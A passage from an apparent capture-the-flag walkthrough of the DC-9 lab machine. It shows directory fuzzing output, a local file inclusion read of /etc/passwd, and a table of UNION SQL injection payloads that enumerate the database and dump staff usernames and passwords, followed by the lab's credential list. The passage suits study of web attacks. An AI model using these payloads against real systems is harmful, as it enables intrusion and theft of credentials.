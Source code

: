 ``` 
________________________________________________

file                    [Status: 200, Size: 3748, Words: 85, Lines: 95]
:: Progress: [63087/63087] :: Job [1/1] :: 1309 req/sec :: Duration: [0:01:09] :: Errors: 0 ::
```

It worked! I copy the result to my terminal to have a better look at it. I save the file as etc.passwd. After sorting it out, I see `MySQL` and plenty of user accounts. I then create a file called `username` and save the content there. 

```
cat etc.passwd | tr " " "\n" | grep bash | tr ":/" " " | awk '{print $3}' | grep -v 0 > username
```

Earlier, we see MySQL in the /etc/passwd. We do know that we can search for staff details. After testing it some trial and error in Burp > Repeater, the search bar is vulnerable to Union SQLi. Using the payload UNION SELECT 1,2,3,4,5,6 will return us a valid output. Anything more or less than 6 will not return us anything.

{{<image src="/DC-9/union_sqli.png" position="center" style="border-radius: 8px;">}}

Moving forward, we can get all the important information we need.

- MySQL Version
- Database
- Table
- Columns
- Data (Username & Password)

SQL injection UNION attacks that I used for this machine: 

| Payload | Description |
|---------|-------------|
| Mary' UNION SELECT 1,2,3,4,5,6-\- -| Determine the number of columns |
| Mary' UNION SELECT schema_name,@@version,3,4,5,6 FROM information_schema.schemata-\- -| Get Database and SQL Version |
| Mary' UNION SELECT table_schema,table_name,3,4,5,6 FROM information_schema.columns WHERE table_schema != 'information_schema'-\- -| Get Table name |
| Mary' UNION SELECT table_schema,table_name,3,4,5,6 FROM information_schema.columns WHERE table_schema != 'information_schema'-\- -| Get Columns name |
| Mary' UNION SELECT group_concat(Username,":",Password)2,3,4,5,6 FROM Staff.Users-\- -| Get Username and Password from Staff.Users |
| Mary' UNION SELECT group_concat(username,":",password)2,3,4,5,6 FROM users.UserDetails-\- -| Get Username and Password from Users.UserDetails |

Since i have a list of username from the LFI, i will only take the password and store it into a text file called `password`

```
echo -n 'marym:3kfs86sfd,julied:468sfdfsd2,fredf:4sfd87sfd1,barneyr:RocksOff,tomc:TC&TheBoyz,jerrym:B8m#48sd,wilmaf:Pebbles,bettyr:BamBam01,chandlerb:UrAG0D!,joeyt:Passw0rd,rachelg:yN72#dsd,rossg:ILoveRachel,monicag:3248dsds7s,phoebeb:smellycats,scoots:YR3BVxxxw87,janitor:Ilovepeepee,janitor2:Hawaii-Five-0' | tr "," "\n" | tr ":" " " | awk '{print $2}' > password
```

## Initial Foothold
